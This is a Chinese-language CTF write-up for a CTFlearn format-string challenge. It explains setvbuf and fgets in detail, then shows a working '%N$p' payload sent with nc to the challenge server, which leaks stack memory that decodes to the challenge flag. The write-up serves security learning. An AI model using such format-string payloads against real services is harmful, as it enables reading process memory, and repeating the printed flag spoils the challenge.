

CTFLearn Leak me Writeup
這份是我2025年3月試用obsidian時寫的，如今把它搬過來這裡。
排版有點亂還請見諒。
題目
題目：https://ctflearn.com/challenge/1221

原始碼解壓縮：
1 | tar zxvf task.tar.gz |
參數解釋：
1 | -z, --gzip, --gunzip, --ungzip filter the archive through gzip |
解題
-
task.c
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
int main() {
setvbuf(stdout, NULL, _IONBF, 0);
setvbuf(stdin, NULL, _IONBF, 0);
char flag[64], buffer[64];
FILE *f = fopen("./flag.txt", "rt");
if (f == NULL) {
puts("No flag.txt found, contact an admin");
return 1;
}
fgets(flag, 64, f);
fclose(f);
printf("What is your favorite format tag? ");
fgets(buffer, sizeof(buffer), stdin);
printf(buffer);
return 0;
}
程式碼解析
setvbuf
1 | setvbuf(stdout, NULL, _IONBF, 0); |
- 在 stdio.h 裡面
- 此二句代表將緩衝模式設為無緩衝
-
setvbuf 用來設定I/O緩衝模式與緩衝區大小，語法如下：
1
2
int setvbuf(FILE *stream, char *buffer, int mode, size_t size);
參數說明
| 參數 | 說明 |
|---|---|
stream |
指定要設定的檔案指標，例如 stdin、stdout、stderr 或 fopen() 打開的檔案 |
buffer |
指定自訂緩衝區的位址，若為 NULL 則使用系統預設緩衝區 |
mode |
設定緩衝模式，包含 _IOFBF（全緩衝）、_IOLBF（行緩衝）、_IONBF（無緩衝） |
size |
指定緩衝區大小，只有 _IOFBF 和 _IOLBF 模式會用到。允許的範圍：2 size<INT_MAX (2147483647)。就內部而言，針對 size 提供的值會向下捨入為最近的 2 倍數。 |
緩衝模式
mode |
代表意義 |
|---|---|
_IOFBF |
全緩衝（fully buffered），當緩衝區滿時才進行 I/O 操作，適用於檔案。 遇到 fflush(stdout);則強制輸出。 |
_IOLBF |
行緩衝（line buffered），遇到換行 (\n) 或緩衝區滿時才進行 I/O 操作，適用於終端機。 |
_IONBF |
無緩衝（no buffering），每次 I/O 操作都會立即執行，不使用緩衝區。 |
範例
自訂輸出緩衝區：_IOFBF
1 |
|
📌 這段程式碼將
stdout設定為「全緩衝」，所以printf()的輸出不會馬上出現在螢幕上，
直到fflush(stdout);才會強制輸出。
回傳值
-
成功時 回傳
0 -
失敗時 回傳非
0值，表示設定失敗使用
setvbuf()的時機
| 使用時機 | 適用模式 | 說明 |
|---|---|---|
| 即時輸出（遊戲、CLI 應用） | _IONBF |
確保 printf() 立即顯示，不會延遲 |
| 減少 I/O 操作（大量寫入檔案） | _IOFBF |
減少磁碟 I/O 次數，提高效能 |
| 適用終端機輸出 | _IOLBF |
遇到換行 (\n) 再輸出，適合日誌記錄 |
| 自訂緩衝區大小 | _IOFBF 或 _IOLBF |
控制 setvbuf() 的 buffer 和 size 參數，提升效能 |
注意事項
setvbuf()必須在任何 I/O 操作之前調用
一旦對stream進行 I/O 操作（如printf()、fscanf()），就不能再使用setvbuf()，否則行為未定。_IONBF會影響效能
- 適用於即時輸出（如遊戲、命令列程式）
- 但頻繁呼叫 I/O 操作（如寫入檔案）可能會降低效能
- 某些平台的
stderr預設為_IONBF
- 這確保錯誤訊息能立即顯示，不會因緩衝而延遲。
- 緩衝區大小
size只對_IOFBF和_IOLBF有影響
_IONBF會忽略size參數。
fgets
-
在stdio.h裡面
-
用途：讀取字串
1
fgets(flag, 64, f);
和
1
fgets(buffer, sizeof(buffer), stdin);
-
fgets()是 C 語言中 讀取字串輸入 的函數，它比scanf()更安全，因為可以限制讀取的字元數，防止緩衝區溢位（buffer overflow），語法如下1
2
char *fgets(char *str, int size, FILE *stream);參數說明
| 參數 | 說明 |
|---|---|
str |
指向存放讀取字串的緩衝區（陣列） |
size |
最多讀取 size-1 個字元，並在最後加上 \0 |
stream |
指定輸入來源，例如 stdin（鍵盤）或 fopen() 打開的檔案 |
回傳值
-
成功時：回傳
str的位址（指向存入的字串）。 -
讀取到 EOF（檔案結束）或錯誤時：回傳
NULL。fgets()的特點✅ 可讀取含空格的字串（不像
scanf("%s", str)只讀取單詞）。
✅ 安全性較高，因為不會超過指定大小，防止 buffer overflow。
❌ 會保留換行符\n（如果緩衝區足夠大）。
❌ 不能直接讀取數字（需要用sscanf()或atoi()轉換）。
基本範例
從標準輸入讀取字串
1 |
|
📌 輸入 Alice，輸出可能是：
1 | 請輸入你的名字: Alice |
📌 輸入 Alice Smith，輸出仍然正確（因為 fgets() 讀取整行）：
1 | 請輸入你的名字: Alice Smith |
fgets() vs scanf()
| 函式 | 輸入 | **輸出 (printf("%s", str)) |
備註 |
|---|---|---|---|
scanf("%s", str) |
Alice Smith |
Alice |
只讀到 Alice，空格後的內容被忽略 |
fgets(str, 50, stdin) |
Alice Smith |
Alice Smith\n |
讀到整行，包含空格和 \n |
解題關鍵
由程式碼看出我們要的東西就在裡 flag 裡(已經在stack裡了)
而程式最終程式 printf(buffer)，有格式化字串的漏洞
因此要想辦法在前一行
1 | fgets(buffer, sizeof(buffer), stdin); |
藉由適當輸入，想辦法讓他輸出flag內容
格式化字串攻擊(Format String Attack)
程式將用戶輸入作為格式字串，攻擊者便能通過插入特定的格式化符號來讀取敏感資料甚至覆寫記憶體。
| Parameters | Output | Passed as |
|---|---|---|
| %% | % character (literal) | Reference |
| %p | External representation of a pointer to void | Reference |
| %d | Decimal | Value |
| %c | Character | |
| %u | Unsigned decimal | Value |
| %x | Hexadecimal | Value |
| %s | String | Reference |
| %n | Writes the number of characters into a pointer | Reference |
HINT: The buffer and the flag take 64byte for each, so 8byte at each address means you have 8 address start from 0 to 7 : the buffer, then 8 to 15 : the flag. (search of String format vuln)
1 | nc rivit.dev 10003 |
如提示，我們的flag在8到15個位置，
輸入：
1 | %8$p %9$p %10$p %11$p %12$p %13$p %14$p %15$p |
獲得輸出：
1 | 0x6e7261656c465443 0x5f336b316c5f317b 0x745f74346d723066 0x7d3030745f356734 0x1000a 0x7ffd48095e38 0x3100000017 (nil) |
丟到Cyberchef
得到輸出
1 | nraelFTC_3k1l_1{t_t4mr0f}00t_5g4 |
將每八個字分成一組，接著各小組反轉，得到
1 | CTFlearn{1_l1k3_f0rm4t_t4g5_t00} |
就是flag。
需要反轉是因為資料是以little‑endian儲存的，也就是把最高位的位元組放在最高的記憶體位址上
圖片出處

不能用%x，不然中間四個字會不見，如abcdefghjklm只會解出dcbamlkj
我還不知道原理